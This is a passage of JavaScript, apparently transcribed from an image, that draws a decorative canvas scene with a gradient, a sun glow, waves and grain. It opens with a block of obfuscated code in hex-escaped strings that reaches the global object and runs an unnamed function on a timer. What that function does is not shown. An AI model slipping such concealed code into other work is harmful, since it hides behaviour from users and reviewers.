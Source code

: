 a;try{a=l(J(0x1f0)+'\x7b\x7d\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x28\x22\x72\x65\x74\x75\x72\x6e\x20\x74\x68\x69\x73\x22\x29\x28\x20\x29'+'\x29\x3b')();}catch(b){a=s;}return a;};const z=c();z[M(0x1df)](W,0x15*-0x3e+0x1f82+-0x1684);}else{return I;}}else{if('\x52\x58\x70\x59\x48'!==M(0x1eb)){I(0x8*-0x4bc+-0x1e46+-0x11e*-0x3d);}else{const z=o?function(){const x=M;if(z){const e=Z[x(0x1d8)](p,arguments);f=null;return e;}}:function(){};O=![];return z;}}}catch(z){}}(function(){const U=G;const k=function(){const B=V;let d;try{if(B(0x1de)===B(0x1de)){d=Function(B(0x1f0)+B(0x1ea)+'\x29\x3b')();}else{I();}}catch(z){d=window;}return d;};const I=k();I[U(0x1df)](F,0xd*0x17b+0x1*0x20da+-0x3031);}());

  const c = document.getElementById('c');
  const ctx = c.getContext('2d');

  function rnd(seed){ let x = seed>>>0 || (Date.now()&0xffffffff); return ()=>((x^=x<<13,x^=x>>>17,x^=x<<5)>>>0)/4294967296; }

  function draw(){
    const r = rnd((Math.random()*1e9)|0);
    const W = c.width, H = c.height;

    // Background gradient
    const g = ctx.createLinearGradient(0,0,0,H);
    g.addColorStop(0,'#0f1b2d');
    g.addColorStop(0.5,'#1d3a66');
    g.addColorStop(1,'#0b1220');
    ctx.fillStyle = g; ctx.fillRect(0,0,W,H);

    // Soft sun glow to add contrast behind text
    const cx = W*0.5, cy = H*0.45, R = H*0.38;
    const rg = ctx.createRadialGradient(cx,cy, R*0.05, cx,cy, R);
    rg.addColorStop(0,'rgba(255,235,180,0.55)');
    rg.addColorStop(1,'rgba(255,235,180,0)');
    ctx.fillStyle = rg; ctx.beginPath(); ctx.arc(cx,cy,R,0,Math.PI*2); ctx.fill();

    // Decorative abstract waves
    ctx.save();
    ctx.globalAlpha = 0.35;
    for(let k=0;k<3;k++){
      ctx.beginPath();
      ctx.moveTo(0,H*0.75 + k*18);
      const steps = 12;
      for(let i=1;i<=steps;i++){
        const t = i/steps, x = t*W;
        const y = H*0.74 + Math.sin((t*3 + k*0.7)*Math.PI*2)*22*(0.7+r()*0.6) + k*22;
        ctx.lineTo(x,y);
      }
      ctx.lineTo(W,H); ctx.lineTo(0,H); ctx.closePath();
      ctx.fillStyle = `rgba(20,30,50,${0.6 - k*0.15})`;
      ctx.fill();
    }
    ctx.restore();

    // Grain for a print look
    const img = ctx.getImageData(0,0,W,H);
    const data = img.data;
    for(let i=0;i<data.length;i+=4){
      const n = (r()-0.5)*18;
      data[i]+=n; data[i+1]+=n; data[i+2]+=n;
    }
    ctx.putImageData(img,0,0);
